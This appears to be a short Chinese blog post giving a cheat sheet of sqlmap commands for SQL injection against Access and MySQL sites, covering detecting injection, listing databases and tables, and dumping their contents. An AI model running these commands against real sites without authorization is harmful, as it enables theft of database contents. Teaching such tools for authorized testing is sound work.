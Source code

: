 ```yaml
---
layout:     post
title:      SQLMAP
subtitle:   SQLMAP基本使用
date:       2019-04-28
author:     By Oxof
header-img: img/zhelong.jpg
catalog:    true
tags:
    - 安全工具
---
```




access数据库注入
sqlmap -u  "URL?id=1"      //检测注入
sqlmap -u "url" --tables        //猜表名
sqlmap -u "url" -T 表名 --dump     //猜表名下的数据
sqlmap -u “url”-T 表名 -C “列名，列名” --dump    //猜表名下的列名内容



mysql注入

sqlmap -u  "URL?id=1"    //检测注入
sqlmap -u "URL?id=1" --dbs     //查看当前网站数据库
sqlmap -u "URL?id=1" --current-db   //查看当前网站使用数据库
sqlmap -u "URL?id=1" -D 数据库名 --dump
sqlmap -u "URL?id=1" -D 数据库名 -T 表名 --dump
